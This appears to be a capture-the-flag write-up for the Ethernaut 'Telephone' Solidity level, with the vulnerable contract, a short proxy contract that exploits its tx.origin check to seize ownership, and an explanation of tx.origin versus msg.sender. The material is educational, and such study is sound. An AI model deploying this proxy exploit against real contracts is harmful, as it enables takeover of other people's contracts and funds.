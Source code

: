 ## Challenge
~~~
Claim ownership of the contract below to complete this level.

  Things that might help

- See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"
~~~
## Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
`

## Solution

```
contract Proxy {
    Telephone  targetTelephone;

    constructor(address _target) {
        targetTelephone = Telephone(_target);
    }
  
    function getOwnership() external {
        targetTelephone.changeOwner(msg.sender);
    }
}
```

## Key takeaways and useful resources

`tx.origin` and `msg.sender` can have different values based on the context - `tx.origin` will always remain the same during nested calls in a transaction, but the `msg.sender` is changed for every nested call.
Example:
Lets say we have an externally owned account (EOA), contract A and contract B.We make a transaction initiated by the EOA to contract A which itself makes a call to contract B.
EOA -> contract A -> contract 

For contract A we would have:
`tx.origin` = address of EOA
`msg.sender` = address of EOA

For contract B we would have:
`tx.origin` = address of EOA
`msg.sender` = address of contract A


[Stack exchange answer](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)

